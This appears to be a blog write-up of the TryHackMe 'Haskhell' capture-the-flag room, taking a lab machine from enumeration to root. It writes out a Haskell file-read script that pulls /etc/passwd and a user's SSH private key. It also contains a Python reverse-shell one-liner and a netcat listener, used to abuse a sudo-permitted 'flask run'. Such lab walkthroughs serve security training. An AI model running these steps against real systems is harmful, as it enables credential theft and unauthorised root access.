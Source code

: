 ```yaml
---
layout: post
title: Haskhell writeup
date: 2020-08-04 04:00:00 +5:30
description: The Following Post is writeup of Haskell of tryhackme # Add post description (optional)
categories: [TryHackMe, Medium]
tags: [tryhackme, ctf, flask, haskell] # add tag
---
```


## Description:

The Following Post is writeup of Haskhell room of tryhackme <https://tryhackme.com/room/haskhell>

|Machine|Details
|:---|:--
|OS | linux
|Rating | Medium
|Creator | sgtscout

## Summary:

  The machine have a webpage at port 5001 you will see a message from your prof about uploading assignment
  We made a Simple Haskell script for reading file(I am not good in Haskell). We got lucky about the permissions
  and get id_rsa printed. Login as user then for privesc we have sudo permissions to run flask app and we run python
  reverse shell as flask app.


## Walkthrough:

### Enumeration

Lets start with nmap scan
```terminal
nmap -sC -sV <ip>
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)
|   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)
|_  256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (ED25519)
5001/tcp open  http    Gunicorn 19.7.1
|_http-server-header: gunicorn/19.7.1
|_http-title: Homepage
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.91 seconds
```
We can see server at port 5001

let's dirbust it
```terminal
┌─[✗]─[root@parrot]─[~]
└──╼ $gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.30.179:5001
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.30.179:5001
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/04 00:56:40 Starting gobuster
===============================================================
/submit (Status: 200)
===============================================================
2020/08/04 01:01:57 Finished
===============================================================
```

we got a submit dir let's see what we can submit
We need to make a haskell script to see if we can get any output or not

```terminal
└──╼ $cat try.hs
main = do
 x <- readFile "/etc/passwd"
 putStr x
```

Now we know prof lets check out .ssh key
So we changed the readfile to /home/prof/.ssh/id_rsa

we got key hurray crack using john
```terminal
└──╼ $/usr/share/john/ssh2john.py id_rsa > crack.hash
id_rsa has no password!


prof@haskhell:~$ sudo -l
Matching Defaults entries for prof on haskhell:
    env_reset, env_keep+=FLASK_APP, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User prof may run the following commands on haskhell:
    (root) NOPASSWD: /usr/bin/flask run

Now we know flask run python let's try with python rev shell

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

    $ export FLASK_APP=hello.py
    $ export FLASK_DEBUG=1
    $ flask run

nc -lvnp 1234
```

Rooted
